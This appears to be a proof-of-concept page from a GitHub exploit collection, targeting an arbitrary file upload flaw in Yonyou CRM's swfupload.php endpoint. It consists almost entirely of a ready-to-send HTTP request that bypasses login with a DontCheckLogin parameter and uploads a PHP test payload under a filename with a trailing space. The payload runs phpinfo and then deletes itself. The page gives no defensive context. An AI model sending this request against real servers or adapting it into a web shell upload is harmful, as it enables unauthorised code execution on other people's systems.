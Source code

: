 # yonyou_crm_swfupload_fileupload
from : https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8Bcrm-swfupload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md 
2024.4.15 @2

```
POST /ajax/swfupload.php?DontCheckLogin=1&vname=file HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------269520967239406871642430066855
Content-Length: 355

-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="file"; filename="%s.php "
Content-Type: application/octet-stream

<?phpinfo();sleep(8);unlink(__FILE__);?>
-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="upload"

upload
-----------------------------269520967239406871642430066855--
```
